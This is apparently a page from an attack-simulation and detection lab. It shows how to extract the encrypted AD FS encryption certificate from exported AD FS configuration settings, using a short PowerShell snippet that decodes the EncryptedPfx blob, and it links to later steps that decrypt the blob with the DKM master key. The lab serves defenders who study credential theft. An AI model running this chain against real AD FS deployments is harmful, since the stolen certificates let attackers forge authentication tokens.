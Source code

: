 # Extract Active Directory Federation Services (AD FS) Encryption Certificate

After [exporting the configuration settings of the AD FS database](exportADFSConfigurationSettings.md), a threat actor would use it to extract sensitive information such as certificates (token signing and encryption) in an encrypted format which can later be decrypted and used for further actions.

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we [exported the AD FS configuration settings](exportADFSConfigurationSettings.md) from to go through the simulation steps.
    * AD FS Configuration Settings
        * The output from the previous step (`XML strings` object or `Microsoft.IdentityServer.PolicyModel.Configuration.ContractObject` object) is saved in the variable `$settings`. Use it in the PowerShell commands below.

## Extract AD FS Encryption Certificate

Remember that the certificate is extracted as an encrypted blob.

### XML String Object

```PowerShell
[xml]$xml=$settings
$encEncryptionPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalEncryptionTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encEncryptionPfx)
$encPfxBytes | Format-Hex
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_12_adfs_get_encrypted_encryption_cert.png)

## Output

Use the variable `$encEncryptionPfx` in the next step to [decrypt the AD FS encryption certificate](decryptADFSEncryptionCertificate.md). Remember that you must [get the AD FS DKM master key value](exportADFSDKMMasterKeyFromDC.md) first from the domain controller to decrypt the certificates.

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)